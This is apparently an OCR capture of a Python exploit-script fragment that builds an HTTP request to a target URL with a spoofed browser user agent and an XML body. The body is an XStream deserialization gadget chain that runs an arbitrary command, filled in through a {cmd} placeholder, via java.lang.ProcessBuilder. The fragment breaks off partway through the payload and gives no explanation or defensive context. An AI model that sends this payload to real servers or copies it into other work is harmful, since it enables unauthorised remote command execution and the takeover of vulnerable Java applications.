 ```python
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/xml",
        }
        self.payload ='''
                    <map>
                        <entry>
                            <jdk.nashorn.internal.objects.NativeString>
                            <flags>0</flags>
                            <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
                                <dataHandler>
                                <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                                    <is class="javax.crypto.CipherInputStream">
                                    <cipher class="javax.crypto.NullCipher">
                                        <initialized>false</initialized>
                                        <opmode>0</opmode>
                                        <serviceIterator class="javax.imageio.spi.FilterIterator">
                                        <iter class="javax.imageio.spi.FilterIterator">
                                            <iter class="java.util.Collections$EmptyIterator"/>
                                            <next class="java.lang.ProcessBuilder">
                                            <command>
                                                {cmd}
                                            </command>
                                            <redirectErrorStream>false</redirectErrorStream>
                                            </next>
                                        </iter>
                                        <filter class="javax.imageio.ImageIO$ContainsFilter">
                                            <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                            </method>
                                            <name>foo</name>
                                        </filter>
                                        <next class="string">foo</next>
                                        </serviceIterator>
                                        <lock/>
                                    </cipher>
                                    <input class="java.lang.ProcessBuilder$NullInputStream"/>
                                    <ibuffer></ibuffer>
                                    <done>false</done>
                                    <ostart>0</ostart>
                                    <ofinish>0</ofinish>
                                    <closed>false</closed>
                                    </is>
                                    <consumed>false</consumed>
                                </dataSource>
                                <transferFlavors/>
                                </dataHandler>
                                <dataLen>0</dataLen>
                            </value>
                            </jdk.nashorn.internal.objects.NativeString>
                            <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
                        </entry>
                        <entry>
                            <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
```